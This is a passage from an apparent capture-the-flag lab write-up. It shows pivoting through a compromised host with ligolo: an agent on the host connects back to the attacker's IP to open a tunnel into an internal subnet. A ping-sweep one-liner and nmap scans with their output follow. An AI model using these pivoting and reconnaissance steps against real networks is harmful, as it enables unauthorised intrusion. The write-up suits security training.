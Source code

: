 ```bash
sudo ip tuntap add user kali mode tun ligolo
sudo ip link set ligolo up
sudo ip route add 192.168.122.0/24 dev ligolo

./proxy -selfcert
```

Connected to it from the target box.

```
dave@ubuntu:~$ ./agent -connect 10.10.14.5:11601 -ignore-cert
```

And created a tunnel.

```
[Agent : dave@ubuntu] » session
? Specify a session : 1 - #1 - dave@ubuntu - 10.129.230.48:32776

[Agent : dave@ubuntu] » start
[Agent : dave@ubuntu] » INFO[0405] Starting tunnel to dave@ubuntu
```

Did a ping sweep with a one-liner because `sudo nmap -sn <CIDR>` was dropping false positives.

```
dave@ubuntu:~$ for i in {1..254} ;do (ping -c 1 192.168.122.$i | grep "bytes from" &) ;done

64 bytes from 192.168.122.1: icmp_seq=1 ttl=64 time=0.085 ms
64 bytes from 192.168.122.4: icmp_seq=1 ttl=64 time=1.17 ms
64 bytes from 192.168.122.5: icmp_seq=1 ttl=64 time=0.468 ms
```

Scanned the mystery address (122.4) with [nmap4lazy](https://github.com/duskb1t/nmap4lazy).

```bash
sudo python3 ~/Desktop/tools/nmap4lazy/nmap4lazy.py -t 192.168.122.4

[+] Scanning all TCP ports...

[+] Command being used:

/usr/bin/nmap 192.168.122.4 -p- -sS -Pn -n --min-rate 5000

[+] Open ports: 

22, 80

[+] NSE Scan in process. This might take a while...

[+] Command being used:

/usr/bin/nmap 192.168.122.4 -sVC -p22,80

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-09 11:51 WEST
Nmap scan report for 192.168.122.4
Host is up (0.017s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ec:35:16:1f:31:cf:db:78:bb:ff:bd:e5:00:1b:d4:c5 (RSA)
|   256 f1:60:14:b9:da:53:80:57:53:a6:7b:44:97:f6:b5:6e (ECDSA)
|_  256 54:05:ca:f3:c2:27:ee:db:70:d4:01:0f:ad:8e:23:5d (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```